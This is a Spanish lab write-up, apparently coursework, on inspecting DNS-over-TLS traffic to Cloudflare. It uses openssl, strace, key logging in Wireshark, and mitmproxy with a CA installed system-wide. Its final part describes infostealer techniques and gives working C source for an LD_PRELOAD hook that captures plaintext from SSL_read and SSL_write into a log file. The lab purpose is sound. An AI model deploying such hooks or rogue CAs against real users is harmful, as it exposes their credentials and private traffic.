EwEB/wQFMAMBAf8wHwYDVR0jBBgwFoAUgtGFczDnNQTTjgKS++Wk0cQh6M0wDgYD
VR0PAQH/BAQDAgGGMAoGCCqGSM49BAMCA2cAMGQCMG/n61kRpGDPYbCWe+0F+S8T
kdzt5fxQaxFGRrMcIQBiu77D5+jNB5n5DQtdcj7EqgIwH7y6C+IwJPt8bYBVCpk+
gA0z5Wajs6O7pdWLjwkspl1+4vAHCGht0nxpbl/f5Wpl
-----END CERTIFICATE-----
---
Server certificate
subject=C=US, ST=California, L=San Francisco, O=Cloudflare, Inc., CN=cloudflare-dns.com
issuer=C=US, ST=Texas, L=Houston, O=SSL Corp, CN=SSL.com SSL Intermediate CA ECC R2
---
No client certificate CA names sent
Peer signing digest: SHA256
Peer signature type: ecdsa_secp256r1_sha256
Negotiated TLS1.3 group: X25519MLKEM768
---
SSL handshake has read 4371 bytes and written 1764 bytes
Verification: OK
Verified peername: one.one.one.one
---
New, TLSv1.3, Cipher is TLS_AES_256_GCM_SHA384
Protocol: TLSv1.3
Server public key is 256 bit
This TLS version forbids renegotiation.
Compression: NONE
Expansion: NONE
No ALPN negotiated
Early data was not sent
Verify return code: 0 (ok)
---
DONE
donde vemos:
Conexión TCP y arranque de la verificación:
Connecting to 1.0.0.1: openssl s_client está intentando abrir una conexión al servidor DoT en la IP 1.0.0.1.CONNECTED(00000003): La conexión TCP se ha establecido correctamente. El dato 00000003 suele ser el descriptor de fichero (fd=3) interno que usa OpenSSL para ese socket.Verificación de la cadena, salida por “depth”: OpenSSL valida la cadena desde la raíz hacia el certificado del servidor.
depth=N indica el “nivel” dentro de la cadena:
depth=2 ... CN=SSL.com Root Certification Authority ECC: Este es el certificado raíz. verify return:1: Para ese certificado ha pasado la verificación.depth=1 ... CN=SSL.com SSL Intermediate CA ECC R2: Esta es la CA intermedia firmada por la raíz. verify return:1: Pasa la verificación de ese nivel.depth=0 ... CN=cloudflare-dns.com: Este es el certificado del servidor (Cloudflare DoT). verify return:1: Pasa la verificación de ese nivel.Sección Certificate chain:
0 s: ... CN=cloudflare-dns.com
0 es el leaf, es decir, el certificado presentado por el servidor.s significa subject del certificado (quién es).i: ... CN=SSL.com SSL Intermediate CA ECC R2:
i: significa issuer, es decir, quién lo firma.a:PKEY: EC (prime256v1); sigalg: ecdsa-with-SHA384:
v:NotBefore ... NotAfter ...: Periodo de validez del certificado leaf (vigencia).-----BEGIN CERTIFICATE----- ... Son los certificados en formato base64 (leaf, intermedia, raíz).Server certificate Resumen del leaf
subject=... CN=cloudflare-dns.com: Resume el Subject del leaf.issuer=... CN=SSL.com SSL Intermediate CA ECC R2: Resume el Issuer (la CA intermedia que lo firmó).Autenticación del servidor y parámetros de TLS:
No client certificate CA names sent: El servidor no está pidiendo certificado de cliente (no es mTLS).Peer signing digest: SHA256: Durante el handshake, el servidor firma mensajes (CertificateVerify) y el resumen usado en la firma es SHA-256.Peer signature type: ecdsa_secp256r1_sha256: La firma que usa el servidor para autenticarse es ECDSA con P-256 y SHA-256.Negotiated TLS1.3 group: X25519MLKEM768: Grupo de intercambio de claves negociado. En este caso aparece un híbrido/post-quantum o híbrido: Hay (EC)DHE, lo que da PFS.Bytes leídos/escritos del handshake: SSL handshake has read ... written .... Cantidad de bytes intercambiados durante el handshake.
Resultado de la validación y del hostname
Verification: OK: La cadena y validaciones criptográficas han sido correctas.Verified peername: one.one.one.one: Como ejecutamos el comando con -verify_hostname one.one.one.one, OpenSSL comprobó que el certificado cubre ese nombre, normalmente vía SAN, y pasó.Resumen final de TLS:
New, TLSv1.3, Cipher is TLS_AES_256_GCM_SHA384: Conexión en TLS 1.3 con cipher suite AES-256-GCM + SHA384. En TLS 1.3 el “SHA384” está asociado a HKDF/PRF del suite.No ALPN negotiated: Aunque el cliente pueda anunciar ALPN, el servidor no seleccionó ninguno, o no se negoció.Verify return code: 0 (ok): Código final de verificación: 0 = OK. Significa una cadena confiable y verificación correcta.DONE: Fin.Con esta información, ya podemos responder a los siguientes apartados.
C=US, ST=California, L=San Francisco, O=Cloudflare, Inc., CN=cloudflare-dns.com.extensión Subject Alternative Name:
one.one.one.one.Según el bloque Certificate chain y los depth=:
Cloudflare, Inc. – CN=cloudflare-dns.com
SSL.com SSL Intermediate CA ECC R2.SSL.com SSL Intermediate CA ECC R2
SSL.com Root Certification Authority ECC.SSL.com Root Certification Authority ECC
self-signed root.Sí, valida correctamente:
Verification: OKVerify return code: 0 (ok)Verified peername: one.one.one.one. Esto prueba que el SAN/CN cubre ese hostname one.one.one.one y que la verificación de nombre pasó. donde vemos:
donde vemos:
Tras completar el handshake TLS, el intercambio de la consulta/respuesta DoT aparece como registros TLSv1.3 Application Data. Wireshark no puede mostrar el DNS en claro porque el contenido viaja cifrado dentro de TLS. Únicamente podemos ver, en el sentido cliente→servidor: el envío de datos, en el sentido servidor→cliente: la respuesta y las longitudes de los registros.
 donde:
donde:
La conexión se termina de forma ordenada a nivel TCP mediante el patrón FIN/ACK (cliente inicia FIN, servidor ACK, servidor FIN, cliente ACK). No se aprecian alertas TLS en claro. En TLS 1.3, un posible close_notify viajaría cifrado como Application Data si no se dispone de las claves de sesión.
El ejercicio también nos pide responder a:
Para responder al análisis del cliente DoT, distinguimos entre evidencia de red y evidencia de ejecución. El PCAP capturado anteriormente permite observar el protocolo y metadatos de la comunicación: para evidenciar que se trata de TCP, el puerto 853, y detalles del handshake TLS (versión negociada, cipher suite, extensiones como SNI/ALPN). Sin embargo, el PCAP no contiene llamadas al sistema. Para identificar con precisión el tipo de socket usado por la aplicación (AF_INET/AF_INET6, SOCK_STREAM) y las llamadas de red más relevantes (socket(), connect(), send()/recv() o read()/write(), close()), es necesario ejecutar el cliente bajo strace y guardar el log de syscalls. Finalmente, para justificar las librerías SSL/TLS empleadas, se aportará los resultados de uar la herramienta ldd.
strace -f -tt -s 256 \
-e trace=network,read,write,close \
-o strace_kdig_net.txt \
kdig -d @1.0.0.1 +tls-ca +tls-host=one.one.one.one example.com
donde:
-f: sigue procesos/hilos hijos (muy importante).-tt: timestamps. Es útil para correlacionar con el PCAP.-s 256: no corta strings demasiado pronto.-e trace=network,read,write,close: filtra a lo relevante: syscalls de red + I/O + cierre.-o strace_kdig_net.txt: guarda todo a este fichero.El fichero strace_kdig_net.txt.
Para extraer el tipo de socket que emplea usamos el comando grep sobre el fichero generado por el comando strace y que con contine los logs:
grep -E 'socket\(|connect\(' strace_kdig_net.txt
Resultado:
4720 10:49:14.254175 socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
4720 10:49:14.254809 connect(3, {sa_family=AF_INET, sin_port=htons(853), sin_addr=inet_addr("1.0.0.1")}, 16) =
-1 EINPROGRESS (Operación en curso)
donde el socket que emplea es:
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3:
Sockets que emplea: Socket IPv4 (AF_INET) de tipo stream (SOCK_STREAM), es decir, un socket TCP. El tercer argumento aparece como IPPROTO_IP, que en este contexto actúa como protocolo por defecto/0 en la llamada socket().
Para extraer la syscalls empledas usamos el comando grep sobre el fichero con contine los logs:
grep -E '^[0-9]+[[:space:]]+[0-9:.]+[[:space:]]+'\
'(socket|connect|sendmsg|recvfrom|sendto|recvmsg|'\
'setsockopt|getsockopt|shutdown|close)\(' \
strace_kdig_net.txt
donde filtramos para ver:
Destamos algunas syscalls:
4720 10:49:14.230657 close(3) = 0
....
....
4720 10:49:14.254269 bind(3, {sa_family=AF_INET, sin_port=htons(0), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
4720 10:49:14.254175 socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
4720 10:49:14.254765 setsockopt(3, SOL_TCP, TCP_NODELAY, [1], 4) = 0
4720 10:49:14.254809 connect(3, {sa_family=AF_INET, sin_port=htons(853), sin_addr=inet_addr("1.0.0.1")}, 16) = -1 EINPROGRESS (Operación en curso)
4720 10:49:14.274362 getsockopt(3, SOL_SOCKET, SO_ERROR, [0], [4]) = 0
4720 10:49:14.276450 sendmsg(3, {msg_name=NULL, msg_namelen=0, msg_iov=.........
4720 10:49:14.294324 recvfrom(3, "\24\3\3\0\1", 5, 0, NULL, NULL) = 5
4720 10:49:14.294392 recvfrom(3, "\1", 1, 0, NULL, NULL) = 1
4720 10:49:14.294456 recvfrom(3, "\27\3\3\fJ", 5, 0, NULL, NULL) = 5
4720 10:49:14.294519 recvfrom(3, ......
4720 10:49:14.302012 recvfrom(3, 0x5a0464be9893, 5, 0, NULL, NULL) = -1 EAGAIN (Recurso no disponible temporalmente)
4720 10:49:14.321183 recvfrom(3, "\27\3\3\1\275", 5, 0, NULL, NULL) = 5
4720 10:49:14.321235 recvfrom(3, .......
4720 10:49:14.321598 sendmsg(3, {msg_name=NULL, msg_namelen=0, msg_iov=[{iov_base=".......
4720 10:49:14.321632 recvfrom(3, 0x5a0464be9893, 5, 0, NULL, NULL) = -1 EAGAIN (Recurso no disponible temporalmente)
4720 10:49:14.321645 close(3) = 0
donde vemos las Syscalls usadas:
bind(): Asocia un socket con una dirección y un puerto específicos en nuestra máquina virtual.socket(): Creación del socket: AF_INET, SOCK_STREAM → inicio de la comunicación.setsockopt(): Configuración del socket.connect(): Intento de conexión al servidor 1.0.0.1:853.getsockopt(): Comprobación del estado del connect().sendmsg(): Envío de datos por el socket: handshake TLS y después datos cifrados.recvfrom(): Recepción de datos por el socket: respuestas TLS / application data cifrada.close(): Cierre del descriptor: final de la conexión.Resumiendo: El rastreo de estas syscalls permite reconstruir el ciclo de vida completo de la consulta DoT a nivel de kernel; desde la reserva de recursos y el establecimiento del flujo TCP mediante socket() y connect(), hasta el intercambio de tramas cifradas.
Para capturar qué librerías criptográficas/TLS está empleado kdig en la máquina virtual para cifrar las comunicaciones, usaremos ldd sobre el binario kdig y luego filtraremos con grep:
ldd "$(which kdig)" | grep -Ei 'gnutls|ssl|crypto|mbedtls|wolfssl|nss|nettle|gcrypt|sodium'
donde:
which kdig: Encuentra la ruta completa donde está instalado el kdig.ldd: Lista todas las librerías dinámicas de las que depende ese kdig para ejecutarse.grep -Ei '...': Filtra la lista para mostrar solo aquellas librerías relacionadas con motores de cifrado y protocolos de seguridad (SSL/TLS).Resultado:
libdnssec.so.9 => /lib/x86_64-linux-gnu/libdnssec.so.9 (0x00007fb9c11f6000)
libgnutls.so.30 => /lib/x86_64-linux-gnu/libgnutls.so.30 (0x00007fb9c0ffc000)
libnettle.so.8 => /lib/x86_64-linux-gnu/libnettle.so.8 (0x00007fb9c0891000)
donde:
libgnutls.so.30:
libnettle.so.8:
libdnssec.so.9:
Rol que juega la librería GnuTLS dentro de kdig como responsable del handshake, cifrado, verificación de certificados:
Handshake TLS - Establecimiento de sesión: GnuTLS ejecuta todo el handshake TLS 1.3 sobre el socket TCP que abre kdig:
Resultado: Se deriva un conjunto de claves de sesión (simétricas) para cifrar el tráfico posterior.
Intercambio de claves efímero y PFS: En TLS 1.3, el intercambio de claves es (EC)DHE efímero (lo vimos en el apartado key_share: x25519). GnuTLS gestiona:
Implicación: Da Perfect Forward Secrecy: Capturar tráfico + Conocer la clave privada del servidor NO basta para descifrar después.
Verificación de certificados - Autenticación del servidor: GnuTLS valida la identidad del servidor, que es crítico en DoT:
Resultado: Evita MITM si el certificado no corresponde o no es confiable.
Cifrado y autenticación del tráfico - Application Data: Una vez finalizado el handshake:
Interfaz con kdig - lectura/escritura: kdig no cifra a mano, pasa los datos DNS a la API TLS (GnuTLS), y esta:
Resumiendo: En kdig, GnuTLS implementa el protocolo TLS para DoT: realiza el handshake (negociación de versión/cifrados y key exchange efímero), valida la cadena de certificados y el hostname (autenticación del servidor) y cifra/autentica el tráfico de aplicación (DNS) con la suite negociada (AES-GCM). GnuTLS delega primitivas criptográficas (hashes, AES, etc.) en Nettle.
Hemos visto que para descifrar tráfico DNS-over-TLS (DoT), Cloudflare negocia TLS 1.3 con (EC)DHE/PFS). Es por ello que las dos técnicas del Capítulo 7 que voy a usar son:
Key logging - Archivo de secretos de TLS → Wireshark: La idea es conseguir las claves de sesión desde el cliente, o desde la librería TLS que use, y dárselas a Wireshark para que descifre el flujo.
Intercepción activa con proxy TLS / MITM (CA propia): La idea es montar un Adversary-in-the-Middle controlado: un proxy que “termina TLS” con el cliente y abre “otro TLS” con Cloudflare.
NO se puede elegir la técnica RSA private key del servidor para Cloudflare DoT porque esta técnica sólo funciona cuando el intercambio de claves es RSA key exchange sin PFS (típico de TLS antiguo con ciertas suites). En este caso hamos visto que usa TLS 1.3 + ECDHE (PFS), así que aunque tuvieramos la clave privada del servidor, no podríamos descrifrar nada a posteriori.
Vamos a intentar descifrar el tráfico utilizando un archivo de secretos (Key Logging). Este método permite descifrar protocolos modernos, como TLS 1.2 y 1.3, que utilizan Perfect Forward Secrecy (PFS).
Pasos que vamos a seguir para descifrar el tráfico DoT, TLS sobre TCP en el puerto 853, en Wireshark usando key logging:
SSLKEYLOGFILE. GnuTLS la soporta y escribe las claves en formato NSS Key Log, que es compatible con Wireshark. El formato NSS es formato de texto plano que contiene valores como el CLIENT_RANDOM que Wireshark utiliza para reconstruir la clave de cifrado simétrico y mostrarnos el contenido de los paquetes DNS-over-TLS.Creamos el fichero de claves y exportamos la variable de entorno SSLKEYLOGFILE:
kdig, ejecutamos en una terminal:export SSLKEYLOGFILE="$HOME/tlskeys_kdig.log"
: > "$SSLKEYLOGFILE"
chmod 600 "$SSLKEYLOGFILE"
: > "$SSLKEYLOGFILE": crea un fichero vacía.chmod 600 "$SSLKEYLOGFILE": sólo nosotros podemos leerlo.Capturar el tráfico: Ejecutamos el siguiente comando para capturar el tráfico de red que nos interesa, en un fichero pcap:
sudo tcpdump -ni enp0s3 host 1.0.0.1 and tcp port 853 -w trafico_cloudflare_1.0.0.1_2.pcap
Generar tráfico DoT con kdig: En la misma terminal donde se generó la variable de entorno lanzamos un par de veces la herramient kdig:
kdig -d @1.0.0.1 +tls-ca +tls-host=one.one.one.one example.com
kdig -d @1.0.0.1 +tls-ca +tls-host=one.one.one.one cloudflare.com
Resultado de la captura del tráfico:

Resultado del fichero tlskeys_kdig.log:
tlskeys_kdig.log

Abrimos el fichero pcap con Wireshark: Cargamos el key log en Wireshark:
(Pre)-Master-Secret log filename, seleccionamos el fichero fichero tlskeys_kdig.log.
Comprobamos que ya tenemos el tráfico DEScifrado: Aplicamos el siguiente filtro: tls && ip.addr==1.0.0.1 && tcp.port==853.
 donde:
donde:
DNS 206 Standard query ... A example.com.DNS 206 Standard query ... A cloudflare.com OPT.Certificate:
Handshake Type: Certificate (11)Certificates Length: 2979 bytesCertificate Verify:
Signature Algorithm: ecdsa_secp256r1_sha256 (0x0403): El servidor firma para demostrar posesión de la clave privada del cert.Finished: Es el mensaje que cierra el handshake del servidor, verificación de integridad del transcript.Certificate + Certificate Verify con ECDSA P-256 / SHA-256.También podemos ver el éxito del descifrado en el paquete 4 Client Hello con la extensión SNI configurada hacia one.one.one.one, que garantiza la integridad del handshake mediante la selección del certificado adecuado.

En el paquete 14 Wireshark vemos una respuesta DNS (ID 0x9049) asociada a la consulta del paquete 12 Request In: 12, con estado NOERROR y dos registros A para el dominio example.com, 104.18.26.120 y 104.18.27.120. Esto confirma que la sesión TLS se ha descifrado correctamente con el key log:

La idea para poder realizar este tipo de captura del tráfico TLS:
Mediante la inserción de una Autoridad de Certificación (CA) controlada en el almacén de confianza del sistema, se permite que mitmproxy genere certificados dinámicos válidos para one.one.one.one. Esto permite la inspección y modificación del tráfico DoT en tiempo real, antes de que sea re-cifrado hacia la infraestructura de Cloudflare.
Un proxy TLS de inspección actúa como man in the middle, terminando TLS del lado cliente y creando otra sesión TLS hacia el servidor real:
Root CA.En este caso, estamos actuando como un traductor en tiempo real entre el cliente y el servidor, permitiendo no sólo ver el tráfico, sino también modificarlo.
Instalamos Mitmproxy:
sudo apt install mitmproxy
Creamos los certificados CA de Mitmproxy: Mitmproxy no crea sus certificados hasta que se ejecuta por primera vez. Para ello:
mitmproxy.~/.mitmproxy/

Obtención del Certificado: Vemos en la carpeta ~/.mitmproxy/:
 donde:
donde:
mitmproxy-ca-cert.pem: Es el certificado público de la entidad emisora (CA). Es el estándar para sistemas Linux y navegadores como Firefox.mitmproxy-ca-cert.p12: Se usa principalmente para instalar en dispositivos Windows, iOS o Android.Instalación de la CA del proxy en el Almacén de Certificados Raíz de Confianza de nuestro sistema: Copiamos el archivo mitmproxy-ca-cert.pem a la carpeta de certificados del sistema renombrándolo y actualizamos el almacén del sistema:
sudo cp ~/.mitmproxy/mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy.crt
sudo update-ca-certificates

Resumiendo: Sin este paso, en el apartado de "Handshake TLS", el cliente rechazaría la Cipher Suite o el Certificado del servidor porque el Issuer (emisor) sería desconocido. Al instalar la CA, el sistema tratará los certificados falsos de mitmproxy como si fueran legítimos, permitiéndonos ver los Datos que son cifrados como texto crudo.
Verificamos que mitmproxy funciona correctamente:
En firefox:

Instalamos el certificado en firefox:
mitmproxy-ca-cert.pem.Confiar en esta CA para identificar sitios web.


La terminal ya muestra flujos de tráfico HTTPS en color verde (200 OK) para dominios como Google y Mozilla. Esto confirma que la intercepción activa (MITM) ya está funcionando correctamente y Firefox confía en tu certificado.
Vemos que en Firefox ya sí funciona también mitmproxy:

Debemos asegurarnos de que los paquetes pasen por el proxy.
mitmproxy --mode 'reverse:https://1.0.0.1:853' --rawtcp listen-host 0.0.0.0 --listen-port 853
donde:
--mode 'reverse:https://1.0.0.1:853': Configura el modo proxy inverso. En lugar de que el cliente sepa que hay un proxy, este comando hace que mitmproxy cualquier conexión que reciba, la descífra y la reenvía mediante TLS (https) al servidor real en 1.0.0.1:853.--rawtcp: Esta opcion hace que mitmproxy no se bloquee cuando recibe algo que no es HTTP, simplemente lo descifra y lo pasa.--listen-host 0.0.0.0: Indica que el proxy debe escuchar en todas las interfaces de red disponibles de la máquina virtual.--listen-port 853: Obliga a mitmproxy a escuchar en el puerto estándar de DNS-over-TLS.Ejecutamos el comando:
kdig -d @1.1.1.1 +tls-ca=~/.mitmproxy/mitmproxy-ca-cert.pem +tls-hostname=one.one.one.one cloudflare.com
donde:
@127.0.0.1 -p 8080: No nos conectamoss a Cloudflare directamente. Nos conectamos a un servicio local, el proxy.+tls-ca=mitmproxy-ca-cert.pem: Indicamos a kdig que confíe en esa CA que es la CA de nuestro proxy.+tls-host=one.one.one.one: Fuerza SNI/validación para ese hostname.Obtenemos una intercepción activa (MITM) exitosa en el sentido de validación de CA propia:
 donde:
donde:
DEBUG: TLS, imported 1 certificates from 'mitmproxy-ca-cert.pem: Al forzar a kdig a importar el certificado de mitmproxi como su autoridad de confianza, estamos confirmando que el emisor (Issuer) del certificado que recibirá a continuación no es una entidad pública como SSL.com, sino el CA propio proxy.#1, CN=cloudflare-dns.com, O=Cloudflare, Inc.: El proxy genera un certificado con el mismo CN/SAN esperado, para que el cliente no sospeche por nombre. Lo importante para demostrar MITM es el Issuer, el emisor:
The certificate is trusted: Confirma que el certificado generado por el proxy ha pasado la validación interna del cliente gracias al paso anterior.TLS session (TLS1.3)-(ECDHE-SECP256R1)-(RSA-PSS-RSAE-SHA256)-(AES-256-GCM):
Seleccionamos un flujo TCP:


Dentro de la pestaña Detail:
 donde:
donde:
TCP (SOCK_STREAM).1.0.0.1:853.TLS: Sección "Client Connection".
TLSv1.3.one.one.one.one.Subject / SAN: cloudflare-dns.com, one.one.one.one, etc.OK / trusted): En la captura anterior vimos que el comando kdig confirmó: The certificate is trusted.Trusted porque instalamos manualmente la CA de mitmproxy en el almacén de confianza.TCP Stream: Dentro de la pestaña TCP Steam: Pulsamos la flecha Izquierda para movernos de la pestaña "Datail" a la pestaña "TCP Stream". Ahí vemos los bytes reales. Como es DNS over TLS, vemos el nombre del dominio que consultamos con kdig, cloudflare.com en texto claro:
donde:
cloudflare.com, el proxy ha tenido que descifrar el paquete que le envió kdig. Si no lo descifrara, el proxy sólo vería bytes aleatorios ilegibles.Cipher Name: Vamos a la pestaña Details. Vemos Cipher name: TLS_AES_256_GCM_SHA384:

donde:
TLS_AES_256_GCM_SHA384 es prueba de que el proxy ha participado activamente en el saludo (handshake).Certificado del Servidor: Dentro de la pestaña Details:
 donde:
donde:
CN=cloudflare-dns.com.SSL.com.Nota aclaratoria importante sobre los certificados: Aclaraciones entre el Falso y el Real
En el tramo proxy↔servidor se observa el certificado público real de Cloudflare, cuya cadena es validada por el proxy contra una CA pública (SSL.com). En cambio, en el tramo cliente↔proxy, la validación exitosa de kdig indica que el certificado presentado al cliente no es el original, sino uno generado dinámicamente por el proxy para el hostname usado en SNI/validación (one.one.one.one) y re-firmado con la CA local en la que kdig confía (+tls-ca=mitmproxy-ca-cert.pem). Esto permite al proxy terminar TLS, acceder al contenido de aplicación en claro y volver a cifrarlo hacia el servidor real.
Si capturamos el tráfico que se generó con el comando kdig y lo intentamos analizar con wireshark, veremos que continúa mostrando tráfico cifrado. Para Wireshark, lo que viaja entre la IP de la máquina virtual 10.0.2.15 y el servidor 1.0.0.1 es un flujo de datos protegidos:

Mientras que mitmproxy permite visualizar el contenido descifrado de la consulta DNS gracias a la intercepción activa del socket, la captura de Wireshark demuestra que el tráfico en tránsito sigue estando protegido por TLS 1.3. Como no le hemos proporcionado el archivo de secretos, Wireshark no tiene forma de abrir esos paquetes y por eso lo etiqueta genéricamente como Application Data.
Podríamos combinar esta técnica, con la técnica de Registro de Claves de Sesión - Key Logging (que vimos en el apartado anterior) para entonces poder ver los paquetes decifrados en wireshark.
Esta técnica se basa en obtener las "llaves maestras" que genera el cliente durante la negociación TLS.
Cómo funciona: El cliente, como Firefox o kdig, guarda los secretos de la sesión en un archivo de texto (el famoso SSLKEYLOGFILE).
Wireshark: Wireshark no intercepta la conexión, solo "mira" los paquetes pasar. Al darle el archivo de claves, Wireshark puede abrir el candado de los paquetes que ya capturó anteriormente.
Resultado: Vemos el protocolo interno (DNS) en lugar de "Application Data".
Cómo funciona: En lugar de dejar que el cliente hable con el servidor real, el proxy se pone en medio y "rompe" el túnel TLS en dos partes.
Por qué es descifrado: Para que podemos ver el nombre del dominio (cloudflare.com) o la Cipher Suite en la pantalla de mitmproxy, el proxy ha tenido que descifrar el paquete que le envió kdig. Si no lo descifrara, el proxy solo vería bytes aleatorios ilegibles.
Se instala un agente/malware en el servidor que:
Es más explotación de endpoint que de red, pero a efectos prácticos tambien permite ver todo el tráfico TLS descifrado.
Esta técnica se conoce técnicamente como Exfiltración de Secretos de Sesión y es una de las más sigilosas, ya que no rompe el cifrado mediante fuerza bruta, sino que simplemente "roba la llave" mientras el usuario legítimo la está usando. Si se obtiene acceso al proceso, se pueden extraer secretos de sesión y descifrar.
Familias de malware que utilizan este fin:
Infostealers (Ladrones de Información): Son los más comunes hoy en día. Su objetivo no es romper el sistema, sino extraer credenciales y secretos de la memoria de los navegadores.
RedLine Stealer / Vidar: Estos malwares escanean la memoria de procesos como chrome.exe o firefox.exe para buscar archivos de cookies y, en versiones avanzadas, intentan capturar los Master Secrets de TLS para descifrar comunicaciones bancarias o de criptoactivos.
StealC: Un malware moderno que automatiza la extracción de datos de navegadores, aprovechando que muchas aplicaciones guardan secretos temporales en memoria para mejorar el rendimiento. https://bazaar.abuse.ch/browse.php?search=tag%3AStealC
Memory scrapers: malware que busca en RAM patrones (claves, tokens, credenciales) y los exfiltra.
Troyanos Bancarios (Banking Trojans): Estos son especialistas en la interceptación de tráfico de red.
Malware que manipula SSLKEYLOGFILE: Esta variable de entorno es una herramienta de depuración legítima. Sin embargo:
Malware de persistencia: Algunos atacantes no instalan un troyano complejo, sino que simplemente configuran la variable de entorno SSLKEYLOGFILE en el sistema de la víctima de forma oculta.
Efecto: A partir de ese momento, cada vez que la víctima usa el navegador, este guarda automáticamente todas las llaves de descifrado en un archivo oculto que el malware luego envía al servidor del atacante (C2).
Vamos a ampliar el ámbito de esta práctica. Intentaremos utilizar esta técnica para 5 para practicar descifrando tráfico TLS. Simularemos el comportamiento de un Infostealer moderno. El objetivo es realizar un Hooking, interceptación de funciones, a la librería criptográfica GnuTLS que identificamos en un apartado anterior.
A diferencia de los métodos anteriores, esta técnica no analiza el tráfico en la red, sino que extrae la información directamente desde la memoria del proceso. Esto permite:
Esta librería define funciones con el mismo nombre y firma que las funciones reales de las librerías criptográficas (como SSL_read y SSL_write en OpenSSL, o gnutls_record_recv en GnuTLS). Cuando una aplicación intenta enviar o recibir datos, el sistema operativo es "engañado" mediante LD_PRELOAD para que ejecute nuestra versión fake de la función en lugar de la oficial.
Una vez que la librería se ha inyectado con éxito en el espacio de memoria del proceso, se obtiene acceso directo a los buffers de datos en texto claro, operando en tres fases críticas:
/tmp/ssl_intercept.log. Este mecanismo permite que herramientas externas de análisis dinámico, como un script Python que se desarrollará en el siguiente apartado, procesen, etiqueten y visualicen el tráfico en tiempo real.Para que la aplicación no se bloquee ni sospeche que algo va mal, la librería utiliza la función dlsym(RTLD_NEXT, ...). Esto le permite encontrar la dirección de memoria de la función original y verdadera. Después de copiar los datos para el log, esta librería fake llama a la función real para que la comunicación continúe normalmente hacia el servidor.
El fichero ssl_hook.c:
#define _GNU_SOURCE
#include <stdio.h>
#include <dlfcn.h>
#include <openssl/ssl.h>
#include <unistd.h>
#include <fcntl.h>
// Punteros para almacenar las funciones originales de OpenSSL
static int (*real_SSL_read)(SSL *ssl, void *buf, int num) = NULL;
static int (*real_SSL_write)(SSL *ssl, const void *buf, int num) = NULL;
// Función auxiliar para registrar los datos interceptados en un fichero
void log_data(const char *prefix, const void *buf, int num) {
int fd = open("/tmp/ssl_intercept.log", O_WRONLY | O_APPEND | O_CREAT, 0644);
if (fd != -1) {
write(fd, prefix, 10);
write(fd, buf, num);
write(fd, "\n---\n", 5);
close(fd);
}
}
// Interceptación de SSL_write (Datos antes de ser cifrados)
int SSL_write(SSL *ssl, const void *buf, int num) {
if (!real_SSL_write) {
real_SSL_write = dlsym(RTLD_NEXT, "SSL_write");
}
// Memory Scraping: Capturamos el buffer antes de enviarlo a la función real
log_data("[WRITE] ", buf, num);
return real_SSL_write(ssl, buf, num);
}
// Interceptación de SSL_read (Datos después de ser descifrados)
int SSL_read(SSL *ssl, void *buf, int num) {
if (!real_SSL_read) {
real_SSL_read = dlsym(RTLD_NEXT, "SSL_read");
}
// Llamamos a la función real para que OpenSSL haga el descifrado
int result = real_SSL_read(ssl, buf, num);
// Si la lectura fue exitosa, registramos el buffer ya descifrado
if (result > 0) {
log_data("[READ ] ", buf, result);
}
return result;
}
Compilación como una librería compartida:
gcc -shared -fPIC -o ssl_hook.so ssl_hook.c -ldl
La técnica conocida como API Hooking o Inyección de Librerías en Tiempo de Ejecución: Su objetivo no es interceptar el tráfico en el cable, sino "secuestrar" las funciones de red dentro de la memoria RAM del propio programa.
Uso de la técnica API Hooking:
LD_PRELOAD=./ssl_hook.so curl https://www.google.com
donde:
LD_PRELOAD: Es una variable de entorno del cargador dinámico de Linux. Le indica al sistema que antes de cargar las librerías estándar (como OpenSSL) debe cargar obligatoriamente las librerías que le indicamos../ssl_hook.so: Es el archivo binario que compilamos desde el código en C. Contiene las versiones "falsas" de las funciones SSL_read y SSL_write.curl https://www.google.com: Es la aplicación víctima. curl cree que está funcionando normalmente, sin saber que sus herramientas de cifrado han sido sustituidas.curl llamaría directamente a la librería oficial de OpenSSL. Con este comando, el flujo cambia radicalmente:
SSL_write.LD_PRELOAD, el sistema no va a OpenSSL, sino que ejecuta la función SSL_write dentro de ssl_hook.so./tmp/ssl_intercept.log.dlsym(RTLD_NEXT, ...) para pasarle el mensaje a la función real de OpenSSL y que esta lo envíe a Internet.ZeuS, Dridex o RedLine Stealer para robar información. Sus ventajas:
Conexión no segura. curl utiliza el certificado real de Google porque el túnel TLS hacia el exterior es legítimo.El uso de LD_PRELOAD permite realizar una interceptación de la Capa de Aplicación mediante la técnica de API Spoofing. Al cargar la librería personalizada ssl_hook.so antes que las librerías del sistema, se logra el acceso a los buffers de memoria de las funciones SSL_read y SSL_write, permitiendo el registro de datos sensibles (como cabeceras HTTP o credenciales) y el protocolo de red, de forma transparente.
cat /tmp/ssl_intercept.log
Este script en Python se encarga de consumir el fichero de log /tmp/ssl_intercept.log que es donde se vuelcan los datos y reconstruye el texto plano observado en el endpoint. Mientras la librería en C realiza el trabajo sucio de interceptar la memoria, este script procesará los datos para darles un formato legible.
Código del script ssl_analyzer.py:
import os
import sys
import time
from datetime import datetime
# Ruta del archivo o FIFO generada por el Hook en C
LOG_PATH = "/tmp/ssl_intercept.log"
def analyze_traffic():
print(f"[*] Iniciando análisis de tráfico SSL/TLS descifrado...")
print(f"[*] Monitoreando: {LOG_PATH}\n" + "-"*60)
# Verificamos si el archivo existe antes de empezar
if not os.path.exists(LOG_PATH):
# Si es un fichero, lo creamos; si es FIFO, esperamos a que el Hook lo abra
open(LOG_PATH, 'a').close()
try:
with open(LOG_PATH, 'r', errors='replace') as f:
# Ir al final del archivo si es un log persistente
f.seek(0, 2)
while True:
line = f.readline()
if not line:
time.sleep(0.1) # Evitar consumo excesivo de CPU
continue
# Parseo de metadatos
timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
if "[WRITE]" in line:
direction = "\033[91m[SENT]\033[0m" # Rojo para datos salientes
content = line.replace("[WRITE] ", "").strip()
elif "[READ ]" in line:
direction = "\033[92m[RECV]\033[0m" # Verde para datos entrantes
content = line.replace("[READ ] ", "").strip()
else:
continue
# Mostrar información formateada
if content and content != "---":
print(f"[{timestamp}] {direction} | Data: {content[:100]}...")
except KeyboardInterrupt:
print("\n[*] Análisis finalizado por el usuario.")
except Exception as e:
print(f"[-] Error: {e}")
if __name__ == "__main__":
analyze_traffic()
